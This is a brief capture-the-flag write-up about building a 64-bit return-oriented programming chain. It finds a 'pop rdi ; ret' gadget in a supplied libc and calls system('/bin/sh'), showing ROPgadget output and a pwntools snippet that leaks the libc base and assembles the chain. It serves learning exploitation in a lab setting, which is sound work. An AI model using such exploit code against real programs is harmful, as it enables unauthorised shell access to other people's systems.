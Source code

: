 # Writeup

This task is similar to `32-bit ROP chains`, but this time the ROP chain is a little more complex. Since arguments are passed in registers instead of on the stack, we need a gadget that does `pop rdi ; ret` to set up our argument to `system()`. We're provided with `libc`, so we can grab a gadget from there.

```
$ ROPgadget --binary libc-2.19.so > gadgets
$ cat gadgets | grep ": pop rdi ; ret"
0x0000000000022482 : pop rdi ; ret
0x0000000000181f10 : pop rdi ; ret 0xffef
```

We'll set up our ROP chain like this:
```
pop rdi gadget
"/bin/sh"
system
```

For the 64-bit version, we first have to get the `libc` base address:
```python2
r.recvuntil("libc start address: ")
libc_base = int(r.recvline().strip(), 16)
log.info("libc base: %s" % hex(libc_base))
```

And then we have to modify our ROP chain a bit:
```python2

pop_rdi_ret = 0x22482 + libc_base
log.info("pop rdi gadget: %s" % hex(pop_rdi_ret))
rop = p64(pop_rdi_ret)
rop += p64(bin_sh)
rop += p64(system_addr)
```

Full solution script can be found [here](src/solv.py).
